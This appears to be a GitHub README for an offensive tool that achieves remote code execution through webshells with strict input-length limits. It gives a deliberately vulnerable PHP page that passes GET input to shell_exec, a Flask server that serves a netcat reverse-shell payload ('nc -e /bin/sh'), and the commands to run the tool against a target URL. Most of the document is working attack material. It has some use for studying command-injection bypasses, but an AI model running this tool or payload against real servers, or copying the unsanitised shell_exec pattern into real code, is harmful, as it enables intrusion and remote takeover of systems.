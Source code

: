 # Description
Tool to RCE in limited input length webshells.  
It pipes the payload to sh, you can customize it with a few changes in the source code (python is already done, just uncomment it), also you could modify it to execute commands directly.

# Usage
```
python3 lentool.py -t http://targetexample.com/?start -u http://myserverexample.com
--target, -t: Target URL with param.  
--url, -u: Web server hosting the payload.
```
 # POC
 ## Vulnerable application:
 ```php
 <?php
 
$sandbox = '/home/estse/sandbox/';
@mkdir($sandbox);
@chdir($sandbox);

if (!isset($_GET['start'])){
	show_source(__FILE__);
	exit;
}

// This will return output only for id and ps.
if (strlen($_GET['start']) < 5){
	echo shell_exec($_GET['start']);
} else {
	echo "Please enter a valid command";
}

?>
 ```
 ## Flask server to host the payload:
 ```python
 from flask import Flask, Response
 
app = Flask(__name__)
 
@app.route('/')
def i():
    return Response("nc -e /bin/sh 127.0.0.1 1234", headers={'Content-Type': 'text/plain'}, status=200)
 
if __name__ == '__main__':
    app.run(host='0.0.0.0',port=4321)
 ```
 ## Run:
 ```
 python3 lentool.py -t http://127.0.0.1:1808?start -u 127.0.0.1:4321
 ```
 

https://user-images.githubusercontent.com/40002393/154508216-648b8403-f78a-4298-b68c-85944a2118e1.mp4

# References
https://err0rzz.github.io/2017/11/13/ctf%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E4%B8%8E%E7%BB%95%E8%BF%87/
